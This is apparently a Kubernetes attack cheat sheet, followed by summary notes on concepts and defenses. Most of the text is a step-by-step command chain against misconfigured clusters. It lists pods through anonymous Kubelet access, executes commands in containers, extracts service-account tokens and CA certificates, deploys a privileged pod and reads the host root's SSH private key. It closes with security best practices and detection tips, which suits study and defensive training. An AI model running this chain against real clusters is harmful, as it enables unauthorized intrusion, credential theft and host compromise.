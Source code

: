 
### Access Kubelet API (pods list)

```bash
curl https://<node_ip>:10250/pods -k | jq
```

### Kubeletctl (pods list)

```bash
kubeletctl -i --server <node_ip> pods
```

### Kubeletctl (scan for RCE)

```bash
kubeletctl -i --server <node_ip> scan rce
```

### Kubeletctl (execute command in pod)

```bash
kubeletctl -i --server <node_ip> exec "id" -p <pod_name> -c <container_name>
```

### Kubeletctl (extract token)

```bash
kubeletctl -i --server <node_ip> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p <pod_name> -c <container_name> | tee -a k8.token
```

### Kubeletctl (extract certificate)

```bash
kubeletctl --server <node_ip> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p <pod_name> -c <container_name> | tee -a ca.crt
```

### Set token variable

```bash
export token=`cat k8.token`
```

### Check Kubernetes access rights (kubectl)

```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://<api_server_ip>:6443 auth can-i --list
```

### Apply pod YAML (kubectl)

```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://<api_server_ip>:6443 apply -f privesc.yaml
```

### Get pods (kubectl)

```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://<api_server_ip>:6443 get pods
```

### Kubeletctl (execute command in privileged pod)

```bash
kubeletctl --server <node_ip> exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
```

### Basic kubectl commands

#### Get pods

```bash
kubectl get pods -A
```

#### Get services

```bash
kubectl get svc -A
```

#### Get deployments

```bash
kubectl get deployments -A
```

#### Get namespaces

```bash
kubectl get ns
```

#### Get secrets

```bash
kubectl get secrets -A -o yaml
```

#### Get service accounts

```bash
kubectl get sa -A -o yaml
```

#### Get roles

```bash
kubectl get roles -A -o yaml
```

#### Get rolebindings

```bash
kubectl get rolebindings -A -o yaml
```



## **Key Concepts:**

- **Kubernetes Architecture:**
    - Control Plane (Master Node): Manages the cluster.
    - Worker Nodes (Minions): Run containerized applications.
    - Pods: Smallest deployable units, containing one or more containers.
- **Kubernetes API:**
    - Central point of interaction.
    - Uses RESTful requests.
    - Authentication and Authorization (RBAC).
- **Kubelet API:**
    - Agent running on each node.
    - Can be vulnerable to anonymous access.
    - Allows interaction with pods and containers.
- **Security Domains:**
    - Cluster infrastructure security.
    - Cluster configuration security.
    - Application security.
    - Data security.

**Vulnerabilities and Exploitation Techniques:**

- **Anonymous Access to Kubelet:**
    - Using `curl` or `kubeletctl` to access the Kubelet API.
    - Retrieving pod information.
    - Executing commands within containers.
- **Service Account Tokens and Certificates:**
    - Extracting tokens and certificates from within a compromised pod.
    - Using `kubectl` with the extracted credentials.
    - Checking access rights (`kubectl auth can-i`).
- **Privileged Pod Creation:**
    - Creating a pod with a host root mount.
    - Accessing host system files.
    - Using hostNetwork: true, for network access to the host.
- **RBAC Misconfigurations:**
    - Exploiting overly permissive RBAC roles.
- **Container Vulnerabilities:**
    - Exploiting known vulnerabilities in container images.

**Exploitation Steps (as described):**

1. **Access Kubelet API:**
    - `curl` or `kubeletctl` to retrieve pod information.
2. **Extract Service Account Credentials:**
    - `kubeletctl exec` to retrieve token and certificate.
3. **Use `kubectl` with Extracted Credentials:**
    - `kubectl auth can-i` to check permissions.
4. **Create Privileged Pod:**
    - Create a YAML file with a host root mount.
    - `kubectl apply` to create the pod.
5. **Access Host Files:**
    - `kubeletctl exec` to access host files.

**Important Considerations and Enhancements:**

- **Security Best Practices:**
    - Disable anonymous access to Kubelet.
    - Implement strong RBAC policies.
    - Use Network Policies.
    - Regularly scan container images for vulnerabilities.
    - Use pod security policies or pod security standards.
    - Use secrets management.
- **Attack Vectors:**
    - Compromised container images.
    - Misconfigured RBAC.
    - Vulnerabilities in Kubernetes components.
- **Detection:**
    - Monitor Kubelet API access.
    - Audit RBAC configurations.
    - Use security scanning tools.
- **Namespaces:** Reinforce the importance of namespaces in kubernetes security.
- **Real World Examples:** Researching real world kubernetes escapes will help solidify understanding of the attack vectors.
- **Container Runtime Security:** Ensure the underlying container runtime is secure.